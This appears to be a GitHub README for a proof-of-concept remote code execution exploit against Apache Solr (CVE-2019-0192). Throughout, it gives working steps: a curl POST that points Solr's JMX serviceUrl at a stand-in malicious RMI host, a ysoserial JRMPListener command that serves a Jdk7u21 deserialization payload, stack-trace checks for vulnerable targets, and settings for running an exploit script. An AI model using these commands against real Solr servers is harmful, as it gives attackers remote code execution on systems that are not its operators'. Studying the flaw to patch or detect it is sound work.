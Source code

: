 # CVE-2019-0192 - Apache Solr RCE 5.0.0 to 5.5.5 and 6.0.0 to 6.6.5

_This is an early PoC of the Apache Solr RCE_

From https://issues.apache.org/jira/browse/SOLR-13301: 
> ConfigAPI allows to configure Solr's JMX server via an HTTP POST request.
By pointing it to a malicious RMI server, an attacker could take advantage
of Solr's unsafe deserialization to trigger remote code execution on the
Solr side.

### Proof Of Concept

![image](https://user-images.githubusercontent.com/5891788/54089326-28b32680-4368-11e9-8b9d-c066bb9ba120.png)

---

By looking on the description of the security advisory and checking on the **ConfigAPI** [ressources of Apache Solr](https://lucene.apache.org/solr/guide/6_6/config-api.html#ConfigAPI-CommandsforCommonProperties), we can find a reference to a JMX server:

![image](https://user-images.githubusercontent.com/5891788/54084547-5c735980-4332-11e9-825b-907e92876f6d.png)

> **serviceUrl** - (optional str) service URL for a JMX server. If not specified then the default platform MBean server will be used.

By checking how ConfigAPI is working we can reproduce how to set a remote JMX server:

```
curl -i -s -k  -X $'POST' \
    -H $'Host: 127.0.0.1:8983' \
    -H $'Content-Type: application/json' \
    --data-binary $'{\"set-property\":{\"jmx.serviceUrl\":\"service:jmx:rmi:///jndi/rmi://malicousrmierver.com:1099/obj\"}}' \
    $'http://127.0.0.1:8983/solr/techproducts/config/jmx'
```

For the PoC I will use **yoserial** to create a malicious RMI server using the payload **Jdk7u21**

1. Start the malicous RMI server:
```
java -cp ysoserial-master-ff59523eb6-1.jar ysoserial.exploit.JRMPListener 1099 Jdk7u21 "touch /tmp/pwn.txt"
```
2. Run the POST request:
```
curl -i -s -k  -X $'POST' \
    -H $'Host: 127.0.0.1:8983' \
    -H $'Content-Type: application/json' \
    --data-binary $'{\"set-property\":{\"jmx.serviceUrl\":\"service:jmx:rmi:///jndi/rmi://malicousrmierver.com:1099/obj\"}}' \
    $'http://127.0.0.1:8983/solr/techproducts/config/jmx'
```
**note**: you should get a 500 error with a nice stacktrace

3. Check the stacktrace:

- If you saw this error: **"Non-annotation type in annotation serial stream"** it's mean that Apache Solr is running with a java version > [JRE 7u25](https://gist.github.com/frohoff/24af7913611f8406eaf3) and this poc will not work

- Otherwise you sould see this error: **"undeclared checked exception; nested exception is"** and the PoC should work.

### Exploit

1. Download [yoserial](https://github.com/frohoff/ysoserial) : https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar
2. Change values into the script: 

```
remote = "http://172.18.0.5:8983"
ressource = ""
RHOST = "172.18.0.1"
RPORT = "1099"
```

3. Then execute the script:

```
python3 CVE-2019-0192.py
```


**Security Advisory**:
* http://mail-archives.us.apache.org/mod_mbox/www-announce/201903.mbox/%3CCAECwjAV1buZwg%2BMcV9EAQ19MeAWztPVJYD4zGK8kQdADFYij1w%40mail.gmail.com%3E

## Ressources:
* https://lucene.apache.org/solr/guide/6_6/config-api.html#ConfigAPI-CommandsforCommonProperties
* https://issues.apache.org/jira/browse/SOLR-13301
